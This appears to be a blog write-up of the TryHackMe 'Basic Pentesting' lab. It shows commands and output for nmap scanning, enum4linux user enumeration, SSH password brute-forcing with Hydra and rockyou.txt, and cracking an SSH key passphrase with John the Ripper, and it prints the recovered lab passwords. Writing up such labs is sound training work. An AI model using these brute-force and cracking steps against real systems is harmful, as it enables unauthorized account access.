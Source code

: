 ```yaml
---
title: "How to Warm Up my HACKING skills with TryHackMe"
date: "2020-04-23"
author: Jorge
categories:
- hack 
tags:
- hack
toc: true
summary: |
  TryHackMe is an online platform for learning and teaching cyber security.
  It is based on completing rooms and upskill in security, all from your browser.
  This is my writeup for the Basic pentesting room.
---
```



I have the feeling that the core of the last few articles is related to **_pentesting_** and **_hacking_**. But after discussing about integration patterns, coding and best practices all day long in my job I fond myself enjoying the hacking challenges in my spare time.

TryHackMe is an online platform for learning and teaching cyber security. It is based on completing rooms and upskill in security, all from your browser.

This article is a **Writeups** for the  [_Basic Pentesting_ room](https://tryhackme.com/room/basicpentestingjt).

<img src="/img/2020/03/image.png">

**1️. Deploy the machine and connect to our network**

**2️. Find the services exposed by the machine**

```bash
$ nmap -sC -sV <IP>
```

```bash
# Nmap 7.80 scan initiated Sun Mar 22 11:26:39 2020 as: nmap -sC -sV -oN output/nmap 10.10.38.196
Nmap scan report for 10.10.38.196
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2020-03-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-03-22T10:26:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 22 11:26:58 2020 -- 1 IP address (1 host up) scanned in 19.80 seconds
```

We  have 3 Open PORTS:

* 22 (SSH)
* 139 and 445 (smbd)

If we open this IP in the browser we see a server sunning.

<img src="/img/2020/03/image-6.png">

<img src="/img/2020/03/image-2.png">

**3. What is the name of the hidden directory on the web server(enter name without /)?**

```html
<!-- Check our dev note section if you need to know what to worck on. -->
```

We could use [gobuster](https://github.com/OJ/gobuster) to search for directories with brute-force but since we have a hint here let's try it first... ok `/dev` isn't the directory we are looking for but we see an apache server running. Maybe `/development` is the right endpoint... Yes, we nailed it.

<img src="/img/2020/03/image-5.png">

<img src="/img/2020/03/image-7.png">

<img src="/img/2020/03/image-8.png">

**4. User brute-forcing to find the username & password**

**5. What is the username?**

We have smbd open, that can give us a lot of information. We can use Enum4linux for that. Since I don't have the tool installed on my machine and handling all the dependencies may be a nightmare let's use docker.

```bash
$ docker run --rm -it enum4linux -a <IP>
```

2 users pop up, **jan** a.k.a. J and **kay** a.k.a. K.

**6. What is the password? + 7. What service do you use to access the server(answer in abbreviation in all caps)?**

Seen the input field we can assume the password is pretty simple, a brute force approach should unlock it.

We have the information about the open ports thanks the nmap tool. SSH is a great candidate with a tool called **_[Hydra](https://tools.kali.org/password-attacks/hydra)_**. A common password dictionary is needed tho and we are going to use [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)

Rockyou.txt contains 14,341,564 unique passwords, used in 32,603,388 accounts.

Kali Linux provides this dictionary file as part of its standard installation.

```bash
$ hydra -l jan -P rockyou.txt ssh:<ip>

login: jan   password: armando
```

**8. Enumerate the machine to find any vectors for privilege escalation**

**9. What is the name of the other user you found(all lower case)?**

We already have this information from point 5.

**10. If you have found another user, what can you do with this information? + 11. What is the final password you obtain?**

Awesome, now we can login with SSH as `jan` . Listing the file in jan directory doesn’t give us any answer to escalating the privilege. Still, remember we have the user kay? Let’s find it out.

We found the `id_rsa` and `id_rsa.pub` and a strange file `pass.back`, unfortunately when we try to ssh using the key file we see the key requires a passphrase.

```bash
$ ssh -i id_rsa kay@<IP>

Enter passphrase for key 'id_rsa':
```

But luckily we can cat out this file and crack the key with [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/ssh2john.py)

```bash
$ ssh2john.py output/kay/id_rsa > id_rsa.txt

$ docker run -it --rm -v $(pwd)/id_rsa.txt:/opt/id_rsa.txt -v $(pwd)/dic/rockyou.txt:/opt/rockyou.txt obscuritylabs/johntheripper /opt/id_rsa.txt --wordlist=/opt/rockyou.txt
...
beeswax   (output/kay/id_rsa)
```

Now we can login as kay with the public key and cat the strange file we saw under the home directory for this user.

```bash
$ ssh -i id_rsa kay@<IP>

$ cat pass.back

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

